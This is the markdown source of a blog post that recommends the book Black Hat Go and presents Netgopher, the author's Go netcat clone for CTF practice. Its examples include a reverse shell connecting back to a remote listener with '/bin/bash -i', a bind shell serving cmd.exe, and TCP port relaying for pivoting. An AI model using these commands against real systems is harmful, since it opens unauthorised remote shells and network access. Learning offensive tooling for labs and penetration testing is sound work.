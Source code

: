 ```yaml
---
defaults:
  # _posts
  - scope:
      path: ""
      type: posts
    values:
      layout: single
      author_profile: true
      read_time: true
      comments: false
      share: true
      related: true
title:  "Black Hat Go and Netgopher"
date:   2021-01-30 21:00:00 +0000
header:
  overlay_image: /assets/images/posts/netgopher/go.gif
  teaser: /assets/images/posts/netgopher/go.gif
  caption: A very excellent animated gopher courtesy of [egonelbre](https://github.com/egonelbre).
excerpt: "New tool who dis?"
categories:
  - Labs
  - Programming
tags:
  - Lab
  - Go
feature_row1:
  - image_path: /assets/images/posts/netgopher/BHG.webp
    excerpt: "Black Hat Go is an excellent No Starch Press book covering the use of Golang for Pen Testing, bug bounty and other offensive security practices. It also has a pretty cool cover."
    url: https://nostarch.com/blackhatgo
    btn_label: "Check out The Book"
    btn_class: "btn--inverse"
---
```


# What's all this about?

This week, I dug out my dusty copy of Black Hat Go, a book I've been getting 
around to reading for an age. Long story short - I loved the first couple of 
chapters so much I thought I'd recommend it right off the bat. 

{% include feature_row id="feature_row1" type="left" %}

## How will this change my life?

If you're into your offensive security, using Go will add a really nice new 
skillset to your box of tricks. Go will let you build tools (simple or complex, 
up to you!) that compile to a single (fairly small) 'blob', with simple 
concurrency and thread management, excellent cross-compilation (No Wine!) and 
a compilation/testing command that's almost as simple as developing a Python 
script.  

I'd suggest that working with Go like this is probably going to be a bit easier 
if you are familiar with some scripting or programming, even if it's just some 
simple usages or concepts, like variables, bits and bytes and so on. If you're
comfortable working with Bash or maybe a little bit of Python (even just being 
able to read these) you'll have a great start. but don't let that hold you back 
if you're keen! I've gone through the first chapter or two so far and in just 
a couple of evenings, the book has guided me through some really nice concepts
in such a simple way.

Most of my exposure to compiled languages comes from solving awkward Mathematical
problems at Univeristy, so learning Go was a little outfacing because I wanted
to avoid that again. So far it's been nothing like that, it's giving me serious 
Python vibes in the ease of drafting, testing and availability/usability of 
(mostly core) Libraries. I think I might be a convert! 

With all that said, If you're worried about the learning curve, you could always 
get the basic syntax and conventions down via Codeacademy, Sololearn etc. first,
then pick up something more technical like this, **just do it!**

# Netgopher

Enter Netgopher. *'What is that?'* I hear you cry? Well to be honest, it's the same 
example Netcat mimic (ish) that every person starting on Black Hat Go or Black Hat 
Python (Another No Starch belter) puts on their Github. That said, I've tried 
to make this super simple implementation of Netcat a bit more useful for myself
as I work CTFs and so on. 

In addition to the usual example TCP connection functionality, I've Googled it 
up and added some better command line parsing and options goodness, whilst most 
of the Netcat 'extra features' (hexdump, UDP etc.) are not included, you can do 
enough to get by on simple HackTheBox/TryHackMe/VulnHub boxes with TCP 
connections, command execution and built-in  port relaying (my personal fave!). 

{% include figure
image_path="/assets/images/posts/netgopher/relay.gif"
alt="Example gif of Relay usage" caption="An example of a connection to connection 
relay. A Pair of listeners are started, then a connecting relay is set up, by 
starting two connections via Netgopher." %}

So if you're curious about Go, maybe you're thinking about it, why not grab this 
script and see what it's capable of? If I can do this in a couple of evenings, 
you definately can! Read the source and play with Netgopher as set out below 
and happy hacking! 

The rest of this post is actually a glorified excerpt from the README for ng on 
my [Github Repo](https://github.com/blackfell/ng){:target="_blank"}. So feel 
free to check that out too if you know where you're going from here.

# Installation

You can, **but probably shouldn't**, get Netgopher by running the following 
command once you have Go installed:

```
❯ go get -u "github.com/blackfell/ng"
```

## Why not? 

Well installing via *go get* will only install ng in your local $GOPATH; 
additionally, the binary will be fairly large and compiled only for your OS. 

I wrote this little application with CTFs in mind, meaning I want a smaller 
binary (to move around the network quickly), preferably with multi-platform 
support, so I can hack on Windows, Linux and more. So... **grab a copy of all the 
[released binaries](https://github.com/Blackfell/ng/releases/tag/v0.1) instead**
, which have been cross compiled and stripped down to ~ 2MB. 

# Examples

## Basic Usage

```
❯ ng                                                                                                 ─╯
Usage of ng:
  -c value
        Make a TCP Connection : -c 127.0.0.1:8080
  -e string
        Execute a command (quote) : -e '/bin/bash -i'
  -h    Print detailed usage.
  -l value
        Listen on a port : -l 4444
  -v    Display detailed progress messages.
```

The simplest examples are the classic netcat connect and listen functions. You 
can try this out with a listener/connection pair:

{% include figure
image_path="/assets/images/posts/netgopher/basic.gif"
alt="Example gif of listener and connection usage" caption="An example of 
listeners and connections.A listener is started, then a connection made from 
the same host." %}

## CTF Use Cases
Some really common use cases I have are:
### Start a shell and connect back to a remote listener
```
# Start a listener on your remote machine
❯ ng -l 1234
# Start the shell
❯ ng -c remote_host:1234 -e '/bin/bash -i'
```
### Start a shell on a bind listener
This is useful in certail cases because you can create as many conenctions 
as you like - if your shell drops, just re-connect.
```
❯ ng -l 1234 -e 'cmd.exe'
# Now connect up to the shell
❯ ng -c serving_host:1234
C:\Windowss\system32>
^C
# Oh no! Your shell dropped - try again
❯ ng -c serving_host:1234
C:\Windowss\system32>

```
### Forward a TCP port back to a remote listener
```
# Start a relay on your local host
❯ ng -l 1234 -l 445
# On your remote host, forward a connection to local port 445
❯ ng -c local_hostname:1234 -c 127.0.0.1:445
# Your local machine now has access to that remote port 445 on 127.0.0.1:445
```
### Port 'spoofing' - Forward connections to another port
```
# Listen on port 1234 and forward connections to ssh server
❯ ng -l 1234 -c 127.0.0.1:22
```
# That's it!

So there you have it - if this piqued your interest why not grab a copy of 
Netgopher and have a mess around, or read the source? If you have any thoughts, 
I welcome issues, pulls, emails, tweets and more, just hit one of the socials 
below. I hope I've insipired you to check out some Go, or even program a 
little in something - anything.

## Get your copy on sale

It's also worth noting that if you're into this, 
[Humble Bundle](https://www.humblebundle.com/) also host periodic super cheap 
sales of No Starch Press books- that's where I got my copy (in eBook form) and 
it might be a good idea to keep your eyes peeled for similar sales in future. 
Peace!
